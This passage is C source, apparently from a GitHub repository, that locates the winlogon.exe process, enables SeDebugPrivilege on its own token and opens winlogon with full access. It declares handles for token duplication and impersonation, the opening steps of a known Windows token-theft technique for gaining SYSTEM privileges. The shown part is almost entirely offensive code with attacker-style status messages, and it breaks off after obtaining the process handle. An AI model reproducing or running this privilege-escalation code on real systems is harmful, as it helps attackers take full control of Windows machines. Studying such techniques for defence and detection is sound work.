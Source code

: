 ```c
	p32.dwSize = sizeof(PROCESSENTRY32);

	int processWinlogonPid;

	if (Process32First(hSnapshot, &p32)) {
		do {
			if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
				printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ProcessID);
				processWinlogonPid = p32.th32ProcessID;
				break;
			}
		} while (Process32Next(hSnapshot, &p32));

		CloseHandle(hSnapshot);
	}

	LUID luid;
	HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

	if (currentProc) {
		HANDLE TokenHandle = NULL;
		BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
		if (hProcessToken) {
			BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

			if (!checkToken) {
				printf("[+] Current process token already includes SeDebugPrivilege\n");
			}
			else {
				TOKEN_PRIVILEGES tokenPrivs;

				tokenPrivs.PrivilegeCount = 1;
				tokenPrivs.Privileges[0].Luid = luid;
				tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

				BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

				if (adjustToken != 0) {
					printf("[+] Added SeDebugPrivilege to the current process token\n");
				}
			}
			CloseHandle(TokenHandle);
		}
	}
	CloseHandle(currentProc);

	HANDLE hProcess = NULL;
	HANDLE TokenHandle = NULL;
	HANDLE NewToken = NULL;
	BOOL OpenToken;
	BOOL Impersonate;
	BOOL Duplicate;

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processWinlogonPid);

	if (!hProcess) {
		printf("[-] Failed to obtain a HANDLE to the target PID\n");
		return -1;
	}

	printf("[+] Obtained a HANDLE to the target PID\n");
```